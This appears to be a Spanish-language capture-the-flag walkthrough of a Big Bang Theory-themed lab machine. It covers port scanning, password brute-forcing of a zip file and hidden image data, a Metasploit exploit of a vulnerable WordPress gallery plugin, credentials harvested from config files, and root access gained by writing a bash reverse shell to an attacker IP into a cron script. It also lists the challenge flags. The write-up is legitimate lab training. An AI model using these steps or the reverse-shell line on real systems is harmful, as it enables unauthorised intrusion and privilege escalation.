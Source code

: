 # Maquina Fun Whit Flags:

Primeramente descubrimos la ip de la maquina mediante un escaneo a la subred:

```bash
·-$ nmap 10.32.2.0/24
```

Encontramos la direccion: 10.32.2.46

```bash
·-$ IP=10.32.2.46
```

le hacemos un escaneo de puertos con:

```bash
·-$ sudo nmap -sS -vvv -p- -n -Pn –open –min-rate 5000 $IP -oG nmap-report
```

y nos revela algunos puertos abiertos [21,22,80,1337] a los cuales le hacemos un escaneo un poco mas profundo en busca de posibles vulnerabilidades:

![image](https://github.com/halexys/UciTeam1/assets/72656657/ceb0e68d-135a-484b-b280-0ecb6d7ec84d)


el mismo escaneo también nos devuelve la primera flag:

![image](https://github.com/halexys/UciTeam1/assets/72656657/9817b85f-d4ba-4302-b24a-6eb57a488012)

```bash
· FLAG-sheldon{cf88b37e8cb10c4005c1f2781a069cf8}
```

También podemos obersvar el ftp corriendo en el puerto 21 con anonymous permitido y un par de cosas en él, así que empezaremos por aquí.


Vemos varias cosas, como un posible usuario y contraseña para penny (penny96, pennyisafreeloader), probamos por ssh pero no funciona asi que seguimos mirando.

En el directorio howard hay un comprimido .zip con contraseña, probamos fuerza bruta con fcrackzip y el diccionario rockyou.txt:

![image](https://github.com/halexys/UciTeam1/assets/72656657/afda2fea-cfde-41f2-be72-265d42a7d8e8)


Encontramos la password: astronaut. El .zip nos devuelve una foto, que tras analizarla nos damos cuenta que contiene algo en ella, pero tambien necesitamos contraseña, por lo que probaremos fuerza bruta nuevamente, esta vez con stegcracker y nuevamente rockyou.txt:

![image](https://github.com/halexys/UciTeam1/assets/72656657/94b1b6b1-c76b-4aa7-93b3-e9ae4c38f220)


Tenemos la flag de howard!:

```bash
· FLAG-howard{b3d1baf22e07874bf744ad7947519bf4}
```

Ahora echemos un vistazo a la web.

Primeramente encontramos un robots.txt que no nos lleva a nada serio, asi que hacemos fuzzing de directorios con gobuster para listar posibles directorios y archivos:

![image](https://github.com/halexys/UciTeam1/assets/72656657/ad02e740-3d9c-4829-94b7-c5d71d84998d)


Tenemos varias vias por donde buscar, pero antes haremos fuzzing tambien en los nuevos directorios (/music, /private y /phpmyadmin) donde encontramos varias cosas, como un wordpress con un panel de login (wp-login.php) dentro de /music/wordpress/:


![image](https://github.com/halexys/UciTeam1/assets/72656657/5430dac4-a18c-4efc-b195-3149e6380f79)


Luego de intentar varias cosas como injecciones sql o usuarios por defecto, le hacemos un escaneo con wpscan (Wordpress Security Scan) y encontramos un plugin vulnerable que constituye una posible via de acceso y el cual intentaremos explotar con metasploit (plugin: reflex-gallery)

```bash
·-$ msfconsole
msf> search reflex
msf> use 0
msf> set RHOST 10.32.2.46
msf> set TARGETURI /music/wordpress
msf> run
```  
![image](https://github.com/halexys/UciTeam1/assets/72656657/9ba26ba0-d135-450f-b783-0b487ed52af9)


Y estamos dentro!
Ahora, husmeando en varios archivos, principalmente en el directorio de wordpress, encontramos en wp-config.php credenciales de la base de datos, como por ejemplo:

```php
// ** MySQL settings - You can get this info from your web host ** //
/** The name of the database for WordPress */
define( 'DB_NAME', 'footprintsonthemoon' );

/** MySQL database username */
define( 'DB_USER', 'footprintsonthemoon' );

/** MySQL database password */
define( 'DB_PASSWORD', 'footprintsonthemoon1337' );
```

Primeramente encontramos algunos usuarios de wordpress, nada relevante, seguimos buscando tabla por tabla, y en wp-posts,  encontramos el contenido de varios de estos, donde el último contenía lo siguiente:

![image](https://github.com/halexys/UciTeam1/assets/72656657/bb5efca0-0b47-459f-a7f1-092c6d8b3357)


La flag de Raj(raz):

```bash
· FLAG-raz{40d17a74e28a62eac2df19e206f0987c}
```

Una vez terminada la enumeración de la base de datos, seguimos en el servidor y encontramos otras credenciales, ahora en /var/www/html/private/db_config.php:

```php
/** MySQL hostname */
define( 'DB_HOST', 'localhost' );
$DBUSER = 'bigpharmacorp';
$DBPASS = 'weareevil';
```

Una vez en la base de datos tenemos lo siguiente:

![image](https://github.com/halexys/UciTeam1/assets/72656657/6f713df4-be12-4f27-9791-7e42ae4c8530)

```bash
· FLAG-bernadette{f42d950ab0e966198b66a5c719832d5f}
```

Siguiendo con las búsquedas, encontramos en el directorio /home/amy, 2 archivos, “notes.txt” y y un binario ejecutable “secretdiary”. La nota tenia el siguiente texto:

```
This is my secret diary.
The safest way to keep my secrets is inside a compiled executable program.
As soon as I get popular now, that I have friends, I will start adding my secrets here.
I have used a really strong password that it cant be bruteforced.
Seriously it is 18 digit, alphanumeric, uppercase/lowercase with symbols.
And since my program is already compiled, no one can read the source code in order to view the password!
```
Lo primero que se me ocurre es leer con cat el binario en busca de algo raro, y tenemos lo siguiente:

![image](https://github.com/halexys/UciTeam1/assets/72656657/d785f98a-78a3-43d8-be6f-c3d8fdd12d11)


Tenemos la flag de amy y una posible password, con la cual intente entrar por ssh pero no funcionó, así que seguimos buscando e intentando escalar privilegios.

```
· FLAG-amy{60263777358690b90e8dbe8fea6943c9}
```

En el directorio leonard encontramos un script .sh, sobre el cual teniamos todos los permisos “thermostat_set_temp.sh”, al parecer es un cron que ejecuta root:

```bash
________________________________________________________________________________
root  2407  0.0  0.0   5436   724 ?   S  14:43   0:00 /bin/bash /home/leonard/thermostat_set_temp.sh
------------------------------------------------------------------------------------------------------------------------
```

Vamos a insertar una reverse shell en bash y esperar con netcat por el puerto 4444:

Lado de la máquina víctima:
```bash
·-$ echo "bash -i >& /dev/tcp/10.8.136.135/4444 0>&1" > thermostat_set_temp.sh
```

Máquina atacante:
```bash
·-$ nc -lnvp 4444
```

y al cabo de unos 8-10 segundos, somos root:

```bash
root@tbbt:/home/leonard#
```

en ~/ encontramos la flag de leonard:

```
FLAG-leonard{17fc95224b65286941c54747704acd3e}
```

y en /home/penny, con ls -a, encontramos el archivo “.FLAG.penny.txt”, con una cadena en aparentemente base64, la intentamos descifrar con:

```
root@tbbt:/home/leonard# cat .FLAG.penny.txt | base64 -d
```
y obtenemos la flag de penny:

```
· FLAG-penny{dace52bdb2a0b3f899dfb3423a992b25}
```


